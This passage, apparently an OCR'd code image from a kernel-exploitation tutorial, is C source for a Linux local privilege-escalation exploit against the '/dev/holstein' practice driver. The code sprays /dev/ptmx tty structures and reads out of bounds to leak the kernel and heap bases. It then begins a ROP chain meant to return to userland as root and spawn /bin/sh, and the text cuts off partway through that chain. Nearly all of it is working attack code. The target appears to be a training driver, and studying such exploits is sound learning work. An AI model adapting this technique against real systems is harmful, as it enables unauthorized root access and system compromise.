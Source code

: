 ```c
uint64_t swapgs_restore_regs_and_return_to_usermode = 0xffffffff81800e10;
uint64_t user_rip = (uint64_t)spawn_shell;

void spawn_shell() {
  puts("[+] returned to user land");
  uid_t uid = getuid();
  if (uid == 0) {
    printf("[+] got root (uid = %d)\n", uid);
  } else {
    printf("[!] failed to get root (uid: %d)\n", uid);
    exit(-1);
  }
  puts("[*] spawning shell");
  char *argv[] = {"/bin/sh", NULL};
  char *envp[] = {NULL};
  execve("/bin/sh", argv, envp);
  puts("[+] win!");
  exit(0);
}

void save_userland_state() {
  puts("[*] saving user land state");
  __asm__(".intel_syntax noprefix;"
          "mov user_cs, cs;"
          "mov user_ss, ss;"
          "mov user_sp, rsp;"
          "pushf;"
          "pop user_rflags;"
          ".att_syntax");
}

int main() {
  save_userland_state();

  int spray[SPRAY_NUM];
  for (int i = 0; i < SPRAY_NUM / 2; i++) {
    spray[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
    if (spray[i] == -1)
      perror("open");
  }

  global_fd = open("/dev/holstein", O_RDWR);
  if (global_fd == -1)
    perror("open");

  for (int i = SPRAY_NUM / 2; i < SPRAY_NUM; i++) {
    spray[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
    if (spray[i] == -1)
      perror("open");
  }

  char buf[0x500];
  read(global_fd, buf, 0x500);
  kernel_base = *(uint64_t *)&buf[0x418] - OPS_OFFSET;
  printf("[+] kernel base: 0x%lx\n", kernel_base);
  g_buf = *(uint64_t *)&buf[0x438] - 0x438;
  printf("[+] heap base: 0x%lx\n", g_buf);

  uint64_t *rop_chain = (uint64_t *)&buf;
  // for (int i = 0; i < 0x40; i++)   // 随便填入几个函数地址进行验证
  //   //*p++ = 0xffffffffdead0000 + i;  // 0xffffffffdead0c00
  *rop_chain++ = pop_rdi_ret - base + kernel_base;         // 0
  *rop_chain++ = 0;                                        // 1
```